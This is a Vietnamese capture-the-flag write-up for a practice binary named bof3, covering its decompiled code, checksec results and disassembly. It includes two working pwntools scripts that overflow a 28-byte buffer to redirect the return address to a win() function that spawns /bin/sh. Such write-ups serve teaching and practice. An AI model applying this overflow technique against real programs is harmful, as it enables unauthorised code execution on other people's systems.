



**1. Tìm lỗi**

Chạy thử file ta có:



Dùng lệnh 'file' để kiểm tra:

```
bof3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a73678d6c03f7f579e303c1da19a5d663ef970bb, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta được

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+1Ch] [rbp-4h]

  v5 = 0;
  init(argc, argv, envp);
  printf("> ");
  v5 = read(0, buf, 0x30uLL);
  if ( buf[v5 - 1] == 10 )
    buf[v5 - 1] = 0;
  return 0;
}
```

Đoạn mã khai báo một mảng buf có kích thước 28 byte và biến v5. Biến v5 được khởi tạo bằng 0.

Hàm read được gọi để đọc dữ liệu từ bàn phím và lưu trữ vào mảng buf. Tham số đầu tiên là số tham chiếu đến bàn phím (0), tham số thứ hai là mảng buf và tham số thứ ba là kích thước tối đa của dữ liệu được đọc (0x30uLL = 48 byte) nhưng biến buf được khai báo 28 byte -> Có lỗi bof

Nếu ký tự cuối cùng trong chuỗi được nhập là ký tự xuống dòng (10), nó sẽ được thay thế bằng ký tự NULL (0).

Ngoài ra còn kiến được hàm win như sau:

```
int win()
{
  return system("/bin/sh");
}
```

Hàm này chạy system cho phép điều khiển hệ thống.

**2. Ý tưởng**

Nhập tràn biến buf đến ret rồi đưa địa hàm win vào ret.

```
pwndbg> checksec
[*] '/mnt/d/CTF_Writeup/Train/bof3/bof3'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Thấy được stack đang No canary found nên có thể khai thác theo ý tưởng trên.

**3. Khai thác**

```
   0x000000000040120b <+46>:    lea    rax,[rbp-0x20]
   0x000000000040120f <+50>:    mov    edx,0x30
   0x0000000000401214 <+55>:    mov    rsi,rax
   0x0000000000401217 <+58>:    mov    edi,0x0
   0x000000000040121c <+63>:    call   0x4010a0 <read@plt>
```

Biến buf đang ở cách rbp 0x20 nên biến buf cách ret 0x20 + 0x8. Vậy sẽ nhập (0x20 + 0x8) byte rác để đến ret.

Địa chỉ hàm win như sau:

```
pwndbg> p &win
$1 = (<text variable, no debug info> *) 0x401249 <win>
```

Ta có script như sau:

```
from pwn import *

r = process('./bof3')

win = 0x401249
payload = b'a'*(0x20 + 0x8) + p64(win)
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**




**3.1 Khai thác lần 2**

Theo kinh nghiệm thì + thêm 5 cho địa chỉ hàm win sẽ được. Ta có script như sau:

```
from pwn import *

r = process('./bof3')

win = 0x401249
payload = b'a'*(0x20 + 0x8) + p64(win + 5)
r.sendafter(b'> ', payload)
r.interactive()
```

**4.1 Lấy flag lần 2**


